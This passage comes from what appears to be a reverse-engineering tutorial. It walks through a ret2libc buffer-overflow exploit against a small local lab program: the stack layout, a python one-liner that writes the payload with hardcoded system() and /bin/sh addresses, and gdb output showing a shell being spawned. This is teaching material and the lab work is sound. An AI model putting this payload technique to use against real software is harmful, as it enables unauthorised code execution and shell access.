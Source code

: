 This view of stack of **func** might help:  

    <Buffer - 100 bytes><Padding - 8 bytes><Old ebp - 4 bytes><ReturnAddress - 4 bytes>

This has to converted to this with the help of gets. 

    <          'a' - 108 bytes            ><  'b' - 4 bytes  ><system_address - 4 bytes><NewReturnAddress - 4 bytes><binsh_address>


Once we are done with this, we have successfully converted the "Returning back to a function" stack to "Calling a new function" Stack. 

Now that we have a plan, let us execute it. 

### Craft the payload

We know how the payload should look like. It should look like this:

    <          'a' - 108 bytes            ><  'b' - 4 bytes  ><system_address -4 bytes><NewReturnAddress - 4 bytes><binsh_address>

One thing to think about is, where will the **system** function return control back to? It was not actually called from any function. We have created that illusion by constructing a fake stackframe. But **system** is innocent and doesn't know that. 

For now, let us give NewReturnAddress = 'cccc'. 

This is the payload: 

    rev_eng_series/post_14$ python -c "print 'a' * 108 + 'b' * 4 + '\xa0\xdd\xe2\xf7' + 'c' * 4 + '\x0b\xea\xf4\xf7'" > exploit.txt

Now, **exploit.txt** has the exploit payload. 

Only thing to do is run the vulnerable program again and inject this payload. 

### Exploit it!

Let us first open the program in gdb and see if we can get the shell or not.

    rev_eng_series/post_14$ gdb -q defeat
    Reading symbols from defeat...(no debugging symbols found)...done.
    gdb-peda$ run < exploit.txt 
    Starting program: /home/adwi/ALL/rev_eng_series/post_14/defeat < exploit.txt
    Before calling func
    [New process 31425]
    process 31425 is executing new program: /bin/dash
    warning: the debug information found in "/lib64/ld-2.23.so" does not match "/lib64/ld-linux-x86-64.so.2" (CRC mismatch).

    [Inferior 2 (process 31425) exited normally]
    Warning: not running or target is remote
    gdb-peda$ 

Bingo! We got the shell. It says "executing new program: /bin/dash" . This is a success! 


Now, let us exploit the program without gdb. 
